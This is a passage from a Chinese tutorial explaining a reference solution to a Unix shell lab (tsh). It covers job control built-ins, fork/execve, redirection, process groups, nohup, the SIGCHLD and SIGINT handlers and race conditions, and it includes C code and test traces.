写到这里，会想把三个命令合成一个函数。但三者的参数检查规则不同（表 20：bg、fg 不接受负号，kill 接受），出错时打印的命令名也不同。合并得太多，函数里就充满了“如果是 kill 就……”的判断，比分开写更难读。参考解答只把真正相同的一步，即“查表并打印找不到的提示语”抽成 find_job，参数检查留在各自的函数中，bg 和 fg 因为差别很小才合成一个函数。
static struct job_t *
find_job(const char *arg, int is_jid, int id, int group)
{
struct job_t *job;
if (is_jid) {
if ((job = getjobjid(job_list, id)) == NULL)
printf("%s: No such %s\n", arg, group ? "process group" : "job");
} else {
if ((job = getjobpid(job_list, id)) == NULL)
printf("(%d): No such %s\n", id,
group ? "process group" : "process");
}
return job;
}
static void
builtin_bgfg(struct cmdline_tokens *tok)
{
char *name = tok->argv[0], *arg = tok->argv[1];
int is_fg = (tok->builtins == BUILTIN_FG);
int is_jid, id;
sigset_t prev;
struct job_t *job;
if (arg == NULL) {
printf("%s command requires PID or %%jobid argument\n", name);
return;
}
is_jid = (arg[0] == '%');
if (!is_jid && !isdigit((unsigned char) arg[0])) {
printf("%s: argument must be a PID or %%jobid\n", name);
return;
}
id = atoi(is_jid ? arg + 1 : arg);
block_job_signals(&prev);
if ((job = find_job(arg, is_jid, id, 0)) != NULL) {
Kill(-job->pid, SIGCONT);
if (is_fg) {
job->state = FG;
wait_fg(&prev);
} else {
job->state = BG;
printf("[%d] (%d) %s\n", job->jid, job->pid, job->cmdline);
}
}
restore_signals(&prev);
}bg 那一行输出最容易漏掉，因为它不在“状态转换”的思路里：bg 的任务是让作业继续运行，改完状态似乎就做完了。少了这一行，trace15、16、29 都会失败，以 trace15 为例：
$ ./sdriver -t 15 -V # 变体 bg_silent：bg 之后不打印
Test output:
tsh> ./mytstpp
Job [1] (10108) stopped by signal 20
tsh> bg %1
tsh> jobs
[1] (10108) Running ./mytstpp
Reference output:
tsh> ./mytstpp
Job [1] (10117) stopped by signal 20
tsh> bg %1
[1] (10117) ./mytstpp
tsh> jobs
[1] (10117) Running ./mytstpp参考输出中 bg 之后有一行“[1] (10117) ./mytstpp”，格式与新建后台作业时打印的那一行相同。这类“自己想不到的输出”，最可靠的发现办法是对照 tshref：写完一个命令，就用 ./sdriver -t 编号 -V 逐行比较。
还有三处值得说明。第一，SIGCONT 发给整个进程组（-job->pid）：作业被 ctrl-z 停止时，停止的是整个前台进程组（第 2.3 节），继续时也要让组里的每个进程都继续，trace21 测的正是这一点。第二，对一个正在后台运行的作业执行 bg 也是合法的，SIGCONT 对正在运行的进程没有影响，tshref 照样打印那一行（表 20）。第三，fg 把状态改为 FG 之后，像运行前台程序一样调用 wait_fg 等待它结束或再次停止；wait_fg 要求调用时信号已经阻塞，所以它放在阻塞区之内，第 6.1 节专门讲它。
第四部分 运行外部程序#
不是内置命令的一行，要在子进程中运行。trace02–04 只要求能运行程序并等它结束，trace05–07 加上后台运行，trace22–24 加上重定向，trace25 加上 nohup。这一部分按这个顺序写出 run_job 和它调用的 run_child，等待前台作业的 wait_fg 和信号的阻塞留到第六部分。图 10 是写完之后两个函数的全貌：左边是 shell 进程中 run_job 的步骤，右边是子进程中 run_child 的步骤。
图 10 运行一个外部程序时，shell（run_job）与子进程（run_child）各做哪几步；括号中是讲解它的小节
4.1 fork 与 execve：execve 失败之后#
第一版只需要 fork 一个子进程，在子进程中 execve(tok.argv[0], tok.argv, environ)，父进程等它结束。execve 成功时不返回，子进程从此变成新程序；失败时返回 −1，例如程序不存在，这时 tshref 打印“./nonexist: Command not found”（第 1.17 节）。
打印完提示语之后，子进程怎么办？最顺手的写法是 return，就像函数出错时返回一样。实验中把参考解答的 exit(1) 换成 return，再输入三行：
$ printf './nonexist\n/bin/echo hello\nquit\n' | ./tsh -p # 变体 exec_return
./nonexist: Command not found
hello
hellohello 打印了两次。原因在于 return 回到了哪里：子进程是 shell 的完整副本，从 run_child 返回到 run_job，再返回 eval，再回到 main 的循环，继续读命令。此时有两个 shell 在运行。输入来自管道，父进程的 fgets 第一次读取时已经把三行都读进了 stdio 的缓冲区，fork 时子进程得到了这份缓冲区的副本，于是两个 shell 都接着执行 /bin/echo hello 和 quit。输入来自终端时情形不同，两个 shell 会争抢以后输入的每一行，结果更加混乱。
所以 execve 之后的代码只为失败而写，打印提示语之后必须结束子进程：
execve(argv[0], argv, environ);
printf("%s: Command not found\n", argv[0]);
exit(1);execve 一旦返回就一定是失败了，不用再判断返回值。这里用 exit 而不是 _exit：exit 会刷新 stdio 缓冲区，刚才 printf 的提示语才会真正输出。fork 之前 shell 的 stdout 缓冲区总是空的（main 在每次 eval 之后都 fflush），子进程不会把父进程的旧内容再输出一遍。
4.2 重定向：在哪个进程打开文件#
trace22–24 测 < 和 >。parseline 已经把文件名放进 tok.infile 和 tok.outfile（第 1.10 节），剩下的问题是：文件由谁打开，什么时候打开。
第 2.9 节用 strace 看到，tshref 在 fork 之前由 shell 打开文件，先开输入文件，再开输出文件；有一个打不开，就打印提示语，不再 fork。这样做的好处是出错时不必创建子进程，提示语也由 shell 输出，顺序确定。两种文件的提示语格式不同，输入文件打不开时打印系统的出错信息，输出文件打不开时打印固定的“Couldn't open file”。参考解答照此写成 open_redirects，打开的描述符交给子进程，父进程随后用 close_redirects 关掉自己的那一份：
static int
open_redirects(struct cmdline_tokens *tok, int *infd, int *outfd)
{
*infd = -1;
*outfd = -1;
if (tok->infile != NULL) {
if ((*infd = open(tok->infile, O_RDONLY)) < 0) {
printf("Error: %s %s\n", tok->infile, strerror(errno));
return -1;
}
}
if (tok->outfile != NULL) {
*outfd = open(tok->outfile, O_WRONLY | O_CREAT | O_TRUNC, 0644);
if (*outfd < 0) {
printf("Error: %s Couldn't open file\n", tok->outfile);
if (*infd >= 0)
Close(*infd);
return -1;
}
}
return 0;
}
static void
close_redirects(int infd, int outfd)
{
if (infd >= 0)
Close(infd);
if (outfd >= 0)
Close(outfd);
}−1 不是任何有效的描述符，用它表示“没有这个重定向”，调用者只需判断是否大于等于 0。输出文件打不开时，已经打开的输入文件要先关掉再返回，否则这个描述符就泄漏了。父进程的 close_redirects 也是同样的道理：描述符在 fork 时被复制，子进程用的是自己的那一份，父进程的这一份如果不关，每运行一条带重定向的命令，shell 就多占一两个描述符，最终会用完。
在默认环境上，参考解答对各种情况的输出如下，与 tshref 逐行相同（第 1.17 节）：
$ echo hello > in.txt
tsh> /bin/cat < in.txt > out.txt
tsh> /bin/cat out.txt
hello
tsh> /bin/cat < nofile.txt > /nonexistdir/y
Error: nofile.txt No such file or directory
tsh> /bin/cat < in.txt > /nonexistdir/y
Error: /nonexistdir/y Couldn't open file
tsh> jobs > /nonexistdir/z
Error: /nonexistdir/z Couldn't open file第三行中两个文件都打不开，只报输入文件，因为输入文件先打开，失败后就返回了。
子进程这一边用 dup2 把文件接到标准输入或标准输出上，再关掉原来的描述符（第 2.8 节）。容易写错的是“没有重定向”的情形。一种写法受教材上“先 close(0) 再 open，open 会返回最小的空闲描述符 0”这一技巧的影响，在子进程中先无条件关闭标准输入，再处理重定向。有输入重定向时，dup2 又把 0 号描述符接上，看不出问题；没有输入重定向时，标准输入就被关掉了：
tsh> /bin/ls /proc/self/fd # 变体 close0：子进程无条件关闭 0 号描述符
0
1
2
tsh> /bin/cat
/bin/cat: -: Bad file descriptor
/bin/cat: closing standard input: Bad file descriptor
tsh> /bin/ls /proc/self/fd # 参考解答
0
1
2
3ls 的输出初看正常，其实少了一项。ls 打开目录 /proc/self/fd 时得到一个新描述符，参考解答中它是 3；变体中 0 号已经空出来，它就拿到了 0，列出的 0 是这个目录本身。cat 则直接从 0 号描述符读，读到的是 Bad file descriptor。规律是：只在确实有重定向时才动 0 号和 1 号描述符。
4.3 进程组：谁建组，给谁建组#
trace19–21 要求 ctrl-c、ctrl-z 作用于前台作业的整个进程组。第 2.3 节已经讲过，每个作业要在自己的进程组中，组号等于作业中第一个进程的 pid，shell 转发信号时用 kill(-pid, sig)。子进程在 execve 之前调用 setpgid(0, 0)，就把自己放进了以自己 pid 为组号的新组。
父进程要不要也调用 setpgid？要，而且参数是 setpgid(pid, pid)，意思是“把进程 pid 放进组 pid”，原因在第 6.4 节。这里先看一种参数写错的情形：父进程写成 setpgid(0, 0)。两个 0 都指调用者自己，于是这一行改变的是 shell 本身的进程组，而不是子进程的。奇怪的是，这样改了之后 31 个 trace 全部通过：
$ ./sdriver # 变体 parent_pgid00：父进程写成 setpgid(0, 0)
Score: 100/100这不说明这种写法正确，只说明在没有竞争的情况下，父进程这一步本来就不起作用：子进程自己已经建好了组。至于 shell 自己被挪进新组，影响也看不出来：sdriver 下 shell 不是终端的前台进程；在终端里从交互式 bash 启动时，bash 已经让 tsh 成为它自己进程组的组长，setpgid(0, 0) 什么也不改变。下面在伪终端中从 bash 启动这个版本的 tsh，ctrl-c 照常只终止前台作业，ps 显示 tsh 的组号就是它自己的 pid，也是终端的前台进程组（TPGID）：
tsh> /bin/sleep 3
^CJob [1] (16243) terminated by signal 2
tsh> /bin/ps -o pid,pgid,tpgid,stat,comm
PID PGID TPGID STAT COMMAND
16235 16235 16242 Ss bash
16242 16242 16242 S+ tsh
16245 16245 16242 R ps第 6.4 节会看到，父进程这一步存在的意义是对付“子进程还没来得及建组，用户就按下了 ctrl-c”的情形，写成 setpgid(0, 0) 时，在这个情形下 ctrl-c 会让 shell 自己报错退出。规律是：调用 setpgid 时先想清楚，第一个参数是要移动的进程，第二个参数是目标组号，0 指调用者自己。
4.4 SIGTTIN 与 SIGTTOU：被忽略的信号会被继承#
main 在开头把 SIGTTIN、SIGTTOU 设为 SIG_IGN（第 1.15 节）。这两个信号由终端驱动程序发出：不在终端前台进程组中的进程读终端时收到 SIGTTIN，写终端时（在设置了相应终端选项时）收到 SIGTTOU，默认动作都是停止进程。shell 忽略它们，是为了自己不被停止。
第 1.14 节的实验表明，被忽略的信号在 execve 之后仍然被忽略（被捕获的信号则恢复默认，因为处理程序的代码已经不存在了）。所以子进程会继承“忽略 SIGTTIN、SIGTTOU”。把参考解答中恢复默认的两行删掉，让作业读取 /proc/self/status 中的 SigIgn 字段（被忽略的信号的位图，第 n 位表示信号 n+1）：
tsh> /bin/grep SigIgn /proc/self/status # 变体 no_ttdfl
SigIgn: 0000000000300000
tsh> /bin/grep SigIgn /proc/self/status # 参考解答
SigIgn: 00000000000000000x300000 是第 20、21 位，对应信号 21（SIGTTIN）和 22（SIGTTOU）。这有什么后果？tsh 从不把终端交给作业（它不调用 tcsetpgrp，第 0.4 节），对终端来说，tsh 运行的每个作业，包括“前台作业”，都不在终端的前台进程组中。在伪终端里运行 tsh，让前台作业 /bin/cat 读终端：
tsh> /bin/cat # 参考解答（tshref 的输出相同）
Job [1] (15878) stopped by signal 21
tsh> jobs
[1] (15878) Stopped /bin/cat
tsh> /bin/cat # 变体 no_ttdfl
/bin/cat: -: Input/output error参考解答中 cat 收到 SIGTTIN，按默认动作停止，shell 报告“stopped by signal 21”，与 tshref 一样；变体中 SIGTTIN 被忽略，内核改为让 read 失败，返回 EIO，cat 报错退出。所以子进程在 execve 之前要把这两个信号恢复为 SIG_DFL：
Signal(SIGTTIN, SIG_DFL);
Signal(SIGTTOU, SIG_DFL);SIG_DFL 就是“恢复默认处理方式”（第 1.14 节）。参考解答的子进程在这两行之前还把 SIGINT、SIGTSTP 恢复为 SIG_DFL，原因在第 6.4 节。
4.5 nohup：从 argv[1] 开始，并且不怕 SIGHUP#
nohup ./myhup 的意思是运行 ./myhup，并让它不受 SIGHUP 影响（终端断开时，进程会收到 SIGHUP，默认动作是终止）。trace25 先直接运行 myhup，再用 nohup 运行它；myhup 给自己发 SIGHUP 后正常退出：
int main()
{
if (kill(getpid(), SIGHUP) < 0) {
perror("kill");
exit(1);
}
exit(0);
}第一版常把 nohup 当成普通命令，直接把 tok.argv 交给 execve。tok.argv[0] 是字符串 "nohup"，execve 找不到这个程序：
$ ./sdriver -t 25 -V # 变体 nohup_argv：把整个 argv 交给 execve
Test output:
Job [1] (16019) terminated by signal 1
nohup: Command not found
Reference output:
Job [1] (16026) terminated by signal 1要运行的程序从 argv[1] 开始，参数数组从 &argv[1] 开始。argv 是指向字符串指针的指针，argv++ 之后 argv[0] 就是原来的 argv[1]，数组仍以 NULL 结尾，可以直接交给 execve。单独输入 nohup 时 argv[1] 是 NULL，execve 失败，printf 把 NULL 字符串打印成 “(null)”，正好与 tshref 的“(null): Command not found”一致（这是 glibc 的行为，C 标准并不保证）。
怎样让程序不受 SIGHUP 影响，有两种做法：忽略它（SIG_IGN），或者阻塞它。两种做法都能通过 trace25，因为 myhup 只是给自己发一次 SIGHUP：忽略时信号被丢弃，阻塞时信号一直待处理，程序照常退出。差别出现在程序自己修改阻塞集合的时候。下面的 hupself 先清空自己的阻塞集合，再给自己发 SIGHUP：
/* hupself.c：先清空自己的阻塞集合，再给自己发 SIGHUP；活下来就打印 survived */
#include <signal.h>
#include <stdio.h>
#include <unistd.h>
int main(void)
{
sigset_t none;
sigemptyset(&none);
sigprocmask(SIG_SETMASK, &none, NULL);
kill(getpid(), SIGHUP);
printf("survived\n");
return 0;
}tsh> nohup ./hupself # 参考解答：阻塞 SIGHUP（tshref 的输出相同）
Job [1] (16187) terminated by signal 1
tsh> nohup ./hupself # 变体 nohup_ign：忽略 SIGHUP
survived阻塞可以被程序自己解除，解除之后 SIGHUP 照样按默认动作终止它；忽略则一直有效，除非程序自己安装处理程序。系统的 nohup 命令用的是忽略，strace 可以看到它调用了 rt_sigaction(SIGHUP, {sa_handler=SIG_IGN, ...})；tshref 用的是阻塞（第 2.9 节）。实验以 tshref 为准，两种做法都能拿满分，参考解答与 tshref 一样阻塞：
if (tok->builtins == BUILTIN_NOHUP) {
argv++;
Sigemptyset(&hup);
Sigaddset(&hup, SIGHUP);
Sigprocmask(SIG_BLOCK, &hup, NULL);
}这几行必须放在恢复阻塞集合之后：恢复阻塞集合用的是 SIG_SETMASK，会把阻塞集合整个换掉，先阻塞 SIGHUP 再恢复，SIGHUP 就又不阻塞了。
4.6 run_child 与 run_job 的全貌#
把前面几节合起来，就得到子进程中的 run_child 和 shell 中的 run_job。run_child 的顺序是：建组，恢复几个信号的处理方式，恢复阻塞集合，nohup 时再阻塞 SIGHUP，重定向，execve。
static void
run_child(struct cmdline_tokens *tok, const sigset_t *prev,
int infd, int outfd)
{
char **argv = tok->argv;
sigset_t hup;
Setpgid(0, 0);
Signal(SIGINT, SIG_DFL);
Signal(SIGTSTP, SIG_DFL);
Signal(SIGTTIN, SIG_DFL);
Signal(SIGTTOU, SIG_DFL);
Sigprocmask(SIG_SETMASK, prev, NULL);
if (tok->builtins == BUILTIN_NOHUP) {
argv++;
Sigemptyset(&hup);
Sigaddset(&hup, SIGHUP);
Sigprocmask(SIG_BLOCK, &hup, NULL);
}
if (infd >= 0) {
Dup2(infd, STDIN_FILENO);
Close(infd);
}
if (outfd >= 0) {
Dup2(outfd, STDOUT_FILENO);
Close(outfd);
}
execve(argv[0], argv, environ);
printf("%s: Command not found\n", argv[0]);
exit(1);
}run_job 先打开重定向文件，再阻塞三个信号、fork，然后父进程补一次 setpgid、关闭自己的描述符、加入作业列表；后台作业打印一行，前台作业则等待。
static void
run_job(struct cmdline_tokens *tok, int bg, char *cmdline)
{
sigset_t prev;
pid_t pid;
int infd, outfd;
struct job_t *job;
if (open_redirects(tok, &infd, &outfd) < 0)
return;
block_job_signals(&prev);
if ((pid = Fork()) == 0)
run_child(tok, &prev, infd, outfd);
/* The child may already have called execve: EACCES is expected */
if (setpgid(pid, pid) < 0 && errno != EACCES)
unix_error("setpgid error");
close_redirects(infd, outfd);
if (addjob(job_list, pid, bg ? BG : FG, cmdline) && bg) {
job = getjobpid(job_list, pid);
printf("[%d] (%d) %s\n", job->jid, pid, cmdline);
}
if (!bg)
wait_fg(&prev);
restore_signals(&prev);
}后台作业的那一行“[1] (pid) ./myspin1 &”由 shell 打印，用的 cmdline 是用户输入的原样，包括末尾的 &；jid 要在 addjob 之后才知道，所以先 addjob，再用 getjobpid 取回作业。addjob 在作业列表已满（16 个）时打印“Tried to create too many jobs”并返回 0，这时不再打印那一行。
还剩三处没有解释，即为什么 fork 之前要阻塞信号，父进程的 setpgid 为什么只容忍 EACCES，wait_fg 怎样等待。它们都与信号到来的时机有关，放到第六部分。
第五部分 信号处理程序#
写到 trace08，前台作业开始被信号终止、停止，三个处理程序就不能再是空函数了。这一部分先弄清处理程序是怎样被调用的，再依次写 sigchld_handler 和 sigint_handler、sigtstp_handler。
5.1 处理程序在什么时候运行#
动手写 sigchld_handler 之前，最常见的困惑是“它到底是怎样工作的”：没有任何代码调用它，它却会被执行。图 11 以一个前台作业被 ctrl-c 终止为例，画出了整个过程。
图 11 前台作业被 ctrl-c 终止时，shell 中先后运行的两个处理程序：内核在 shell 从内核返回用户态时检查待处理的信号，调用对应的处理程序，处理程序返回后 shell 回到原来的位置继续
第一，处理程序是由内核“插入”到 shell 的执行流程中的。main 中的 Signal 只是登记“收到这个信号时执行这个函数”（第 1.14 节）。信号到达时，内核在 shell 的待处理位图中记一笔；shell 下一次从内核返回用户态时（例如 sigsuspend 被唤醒时，或者正在运行的 shell 被调度、发生中断之后），内核发现有未阻塞的待处理信号，就让 shell 先去执行处理程序，执行完再回到原来被打断的位置（第 17 讲）。
第二，SIGCHLD 由内核发出，时机是子进程的状态改变：终止、被信号停止，或者被 SIGCONT 继续。它只告诉 shell“有子进程的状态变了”，不说是哪一个、变成了什么。是哪一个、变成了什么，要由处理程序调用 waitpid 去问。
第三，ctrl-c 的 SIGINT 本来就是发给 shell 的：tsh 所在的进程组是终端的前台进程组，作业都在自己的组中（第 2.3 节）。sigint_handler 的任务只是把它转发给前台作业所在的进程组。作业被终止后，内核再给 shell 发 SIGCHLD，由 sigchld_handler 收尾。两个处理程序之间不直接交流，sigint_handler 不修改作业列表，作业列表只由 sigchld_handler 和 eval 修改。
5.2 status 从哪里来，三种情况各做什么#
sigchld_handler 中的 status 是 waitpid 的输出参数：调用者给出一个 int 的地址，waitpid 把子进程状态变化的详细信息写进去，再用 WIFEXITED 等宏拆开（第 2.7 节）。子进程的状态有四种变化，表 21 列出了它们的判断方法和 tsh 应当做的事。
表 21 sigchld_handler 要处理的四种情况
| 子进程的变化 | 怎样判断 | 对作业列表做什么 | 输出 |
|---|---|---|---|
| 正常退出 | WIFEXITED(status) | deletejob | 无 |
| 被信号终止 | WIFSIGNALED(status)，信号是 WTERMSIG(status) | deletejob | Job [jid] (pid) terminated by signal N |
| 被信号停止 | WIFSTOPPED(status)，信号是 WSTOPSIG(status) | state 改为 ST，不删除 | Job [jid] (pid) stopped by signal N |
| 被 SIGCONT 继续 | WIFCONTINUED(status)，要在 waitpid 的选项中加 WCONTINUED | 原来是 ST 的改为 BG | 无 |
正常退出时什么也不打印，这一点 tshref 可以验证：前台运行 /bin/echo hello，之后只有 hello，没有任何“Job ...”的行。
前三种情况 trace 都会测到，第四种则容易忽略。bg、fg 发出 SIGCONT 的同时就改好了 state（第 3.5 节），似乎不需要处理“继续”；可作业也可能被 shell 之外的人继续，例如在另一个终端用 /bin/kill -CONT。下面让一个后台作业在外部先被 SIGTSTP 停止、再被 SIGCONT 继续，每一步之后输入 jobs，并用 ps 确认它确实在运行（STAT 为 S，即睡眠中，而不是表示停止的 T）：
不加 WCONTINUED（变体 no_wcontinued）：
[1] (19820) /bin/sleep 3 &
Job [1] (19820) stopped by signal 20
[1] (19820) Stopped /bin/sleep 3 & # 第一次 jobs
[1] (19820) Stopped /bin/sleep 3 & # 继续之后的 jobs：仍显示 Stopped
加了 WCONTINUED，但没有单独处理 WIFCONTINUED，走到 deletejob（变体 no_cont_branch）：
[1] (19835) /bin/sleep 3 &
Job [1] (19835) stopped by signal 20
[1] (19835) Stopped /bin/sleep 3 & # 继续之后的 jobs 没有输出：作业被删除了
参考解答与 tshref：
[1] (19806) /bin/sleep 3 &
Job [1] (19806) stopped by signal 20
[1] (19806) Stopped /bin/sleep 3 &
[1] (19806) Running /bin/sleep 3 &不加 WCONTINUED 时 shell 不知道作业已经继续，jobs 显示的状态是错的；加了 WCONTINUED 却没有单独处理，“继续”会落进处理终止的分支，一个仍在运行的进程被从列表中删掉了，它以后结束时也不会被报告。tshref 的做法是把它改为 BG，参考解答照做。原来就是 FG 或 BG 的作业（fg、bg 已经改好了状态）不用动。
5.3 为什么要用 while 循环调用 waitpid#
最先想到的写法是“收到一个 SIGCHLD，就 waitpid 一次”。第 2.7 节的实验已经说明了这样写的问题：同一种信号不排队，处理程序运行期间又到达的几个 SIGCHLD 合并成一个待处理信号，处理程序只会再被调用一次。放到 tsh 中会怎样？让三个后台作业几乎同时结束；为了让后两个 SIGCHLD 每次都恰好在处理程序运行期间到达，在处理程序开头加了 1 秒的延迟（注入延迟，见第三部分开头的说明）：
tsh> /bin/sleep 0.5 & # 变体 chld_if_slow：只回收一个子进程
[1] (31325) /bin/sleep 0.5 &
tsh> /bin/sleep 0.5 &
[2] (31326) /bin/sleep 0.5 &
tsh> /bin/sleep 0.5 &
[3] (31327) /bin/sleep 0.5 &
tsh> jobs # 4 秒之后
[3] (31327) Running /bin/sleep 0.5 &
$ ps -o pid,stat,comm --ppid <tsh 的 pid>
PID STAT COMMAND
31327 Z sleep三个 SIGCHLD 只引起两次处理程序调用，作业 3 早已结束，却一直显示为 Running，ps 看到它是僵死进程（Z）。把 if 改回 while（变体 chld_while_slow，延迟不变），jobs 没有输出，ps 也看不到任何子进程。延迟只是让问题每次都出现，没有延迟时它照样会发生，只是比较少见。
循环的终止条件是 waitpid 返回 0 或 −1。WNOHANG 让 waitpid 在“还有子进程，但没有状态变化”时立即返回 0，而不是等下去，处理程序不能在这里阻塞；返回 −1 且 errno 为 ECHILD 表示已经没有子进程了，这是正常的结束，其余的 −1 才是真正的错误。WUNTRACED 让被停止的子进程也被报告，否则 ctrl-z 之后 shell 不知道作业停了；WCONTINUED 让被继续的子进程也被报告（第 2.7 节、第 5.2 节）。
5.4 处理程序中的四条规矩#
写出循环之后，处理程序还要遵守几条规矩，它们来自一个事实：处理程序可能在主程序的任何两条指令之间插进来。
第一，输出只用 sio 系列（第 1.13 节）。printf 内部有锁和缓冲区，如果主程序正在 printf 时被打断，处理程序再调用 printf，可能死锁，或者把两段输出搅在一起。sio_put 直接调用 write，没有这个问题，它认识 %d，正好够打印“Job [%d] (%d) terminated by signal %d”。
第二，修改作业列表时阻塞所有信号。deletejob 会改写一个槽位、再重新计算 nextjid，如果改到一半又被另一个处理程序打断，作业列表就处于不一致的状态。处理程序开头 sigfillset 加 SIG_BLOCK，结尾恢复，这一段期间不会再被任何信号打断。
第三，保存并恢复 errno。主程序可能刚好执行到“系统调用失败、准备读 errno”的位置，处理程序中的 waitpid 循环最后一次返回 −1 时把 errno 设为 ECHILD，处理程序返回后主程序读到的就不是自己那次失败的原因了，打印出的提示语会是错的。所以处理程序一开始把 errno 存进局部变量，返回前再写回去（教材 8.5.5 节）。
第四，查表的结果可能是 NULL。正常情况下每个子进程都在作业列表中，但也有例外：作业列表已满时 addjob 失败，子进程照样在运行，它结束时 getjobpid 找不到它。这时不能解引用 NULL，跳过它即可（它已经被 waitpid 回收了）。
按这四条写出的 sigchld_handler 如下。处理程序中的系统调用失败时，不能用 unix_error（它调用 fprintf 和 exit，都不是异步信号安全的），用 sio_error 输出后以 _exit 结束。
void
sigchld_handler(int sig)
{
int olderrno = errno, status;
sigset_t all, prev;
pid_t pid;
struct job_t *job;
if (sigfillset(&all) < 0 || sigprocmask(SIG_BLOCK, &all, &prev) < 0)
sio_error("sigprocmask error\n");
while ((pid = waitpid(-1, &status, WNOHANG | WUNTRACED | WCONTINUED)) > 0) {
if ((job = getjobpid(job_list, pid)) == NULL)
continue;
if (WIFSTOPPED(status)) {
job->state = ST;
sio_put("Job [%d] (%d) stopped by signal %d\n",
job->jid, pid, WSTOPSIG(status));
continue;
}
if (WIFCONTINUED(status)) {
if (job->state == ST)
job->state = BG;
continue;
}
if (WIFSIGNALED(status))
sio_put("Job [%d] (%d) terminated by signal %d\n",
job->jid, pid, WTERMSIG(status));
deletejob(job_list, pid);
}
if (pid < 0 && errno != ECHILD)
sio_error("waitpid error\n");
if (sigprocmask(SIG_SETMASK, &prev, NULL) < 0)
sio_error("sigprocmask error\n");
errno = olderrno;
}打印时用的是 job->jid，所以要在 deletejob 之前打印：deletejob 会清空这个槽位，之后 jid 就是 0 了。
把“阻塞、恢复”写成函数（例如 block_job_signals(sigset_t *prev)）时，有两个小错误很常见。第一个是在函数里对 prev 再取一次地址，写成 Sigprocmask(SIG_BLOCK, &mask, &prev)。prev 本身已经是指针，&prev 的类型是 sigset_t **，好在 Makefile 带 -Werror，编译就会报错：
tsh.c:260:35: error: passing argument 3 of 'Sigprocmask' from incompatible
pointer type [-Werror=incompatible-pointer-types] （原为一行）
260 | Sigprocmask(SIG_BLOCK, &mask, &prev);
| ^~~~~
| |
| sigset_t **第二个错误编译器查不出来：把 sigfillset 的返回值判断写反，写成 if (sigfillset(&all) == 0 || ...)。sigfillset 成功时返回 0，于是每一次都当作失败。把参考解答的 sigchld_handler 改成这样，运行 /bin/echo hello，hello 照常打印，接着第一个 SIGCHLD 到来，处理程序打印“sigprocmask error”并以退出码 1 结束 shell；sdriver 中 trace01（只有 quit）照样通过，从 trace02 起全部失败（sim/s7_extra）。系统调用和库函数的约定几乎都是“0 或非负表示成功、−1 表示失败”，判断失败统一写 < 0，就不会弄反。
5.5 sigint_handler 与 sigtstp_handler：if 还是 while#
两个处理程序做的事相同：如果有前台作业，就把收到的信号转发给它的进程组；没有前台作业就什么也不做（trace13、14 要求 ctrl-c、ctrl-z 只影响前台作业）。
写这一步时，常会把“如果有前台作业”写成 while：既然要让前台作业结束，就一直发，直到没有前台作业为止。trace08 中，myintp 给它的父进程（shell）发一个 SIGINT，shell 应当把它转发回去，让 myintp 终止。用 while 的版本在这里卡住：
$ ./runtrace -f trace08.txt -s ./tsh # 变体 fwd_while
tsh> ./myintp
trace08.txt: Runtrace timed out waiting for next shell prompt
Child shell still running.
$ ps -o pid,stat,%cpu,comm -C tsh # 2 秒之后
PID STAT %CPU COMMAND
31563 R 96.0 tshshell 占着九成以上的 CPU，在处理程序中空转。原因是 while 的条件永远不会变：前台作业被 SIGINT 终止后，要等 sigchld_handler 调用 deletejob，fgpid 才会返回 0；而 sigint_handler 运行期间阻塞了所有信号，SIGCHLD 只能待处理，sigchld_handler 永远没有机会运行。即使不阻塞，处理程序也不应该等待某个条件，它应当尽快做完一件事就返回。这里的“如果”是对此刻状态的一次判断，用 if。
static void
forward_to_fg(int sig)
{
int olderrno = errno;
sigset_t all, prev;
pid_t pid;
if (sigfillset(&all) < 0 || sigprocmask(SIG_BLOCK, &all, &prev) < 0)
sio_error("sigprocmask error\n");
if ((pid = fgpid(job_list)) != 0 && kill(-pid, sig) < 0)
sio_error("kill error\n");
if (sigprocmask(SIG_SETMASK, &prev, NULL) < 0)
sio_error("sigprocmask error\n");
errno = olderrno;
}
void
sigint_handler(int sig)
{
forward_to_fg(sig);
}
void
sigtstp_handler(int sig)
{
forward_to_fg(sig);
}转发用 kill(-pid, sig)，负号表示整个进程组，前台作业中的每个进程都收到信号（trace20 的 mysplit 会再创建一个子进程，测的正是这一点）。这要求作业确实在以 pid 为组号的进程组中，第 4.3 节的 setpgid 就是为此准备的；如果没有建组，kill 会因找不到这个进程组而失败，第 6.4 节会看到这种情形。两个处理程序直接把 sig 传下去，所以不必分别写 SIGINT 和 SIGTSTP。
第六部分 竞争与阻塞#
到第五部分为止，每个函数单独看都是对的，但 shell 中有两条执行流程：eval 一条，处理程序一条，后者可能在前者的任意两条指令之间插进来。Makefile 还用 fork.c 让 fork 之后父进程或子进程随机睡眠最多 0.1 秒（第 0.1 节），使各种先后顺序都有机会出现。这一部分的四个问题都出在“两件事的先后顺序不确定”上：等待前台作业，fork 与 addjob，查找作业与使用作业，父子进程的 setpgid。
为了让每一种出错的顺序每次都出现，本部分的错误写法大多注入了一段延迟（usleep），并在旁边注明。延迟只是放大了时间窗口，没有延迟时这些错误照样存在，只是偶尔才发生，在 sdriver 中表现为某个 trace 有时通过、有时失败。
6.1 等待前台作业：忙等、sleep 与 sigsuspend#
前台作业运行时，eval 要等它结束或停止之后才能返回。第 2.6 节讲了等待的条件（前台已经没有作业，即 fgpid 返回 0）和 pause 写法中的竞争。动手时还会想到另外两种写法：一直检查条件（忙等），或者每次检查之后 sleep 一会儿。三种写法都能通过 trace，差别要用时间来看（表 22）。下面让 shell 前台运行一次 /bin/sleep 2，再依次前台运行 10 次 /bin/true，用 bash 的 time 记下 shell 消耗的 CPU 时间和总耗时：
表 22 三种等待写法的耗时（默认环境实测，sim/s5_race）
| 写法 | /bin/sleep 2 | 10 次 /bin/true |
|---|---|---|
| sigsuspend（参考解答） | 用户态 0.003 秒，总耗时 2.030 秒 | 用户态 0.012 秒，总耗时 0.551 秒 |
| 忙等（变体 wait_busy） | 用户态 1.908 秒，总耗时 2.003 秒 | 用户态 0.309 秒，总耗时 0.503 秒 |
| sleep(1) 轮询（变体 wait_sleep） | 用户态 0.002 秒，总耗时 2.003 秒 | 用户态 0.010 秒，总耗时 0.459 秒 |
| sleep(1) 轮询，检查与 sleep 之间注入 50 毫秒延迟（变体 wait_sleep_gap） | 用户态 0.002 秒，总耗时 2.096 秒 | 用户态 0.012 秒，总耗时 1.557 秒 |
忙等的问题一目了然，等 2 秒，shell 自己就用掉了 1.9 秒的 CPU 时间，等待期间它占满一个核。实验说明 §7 明确禁止这种写法。
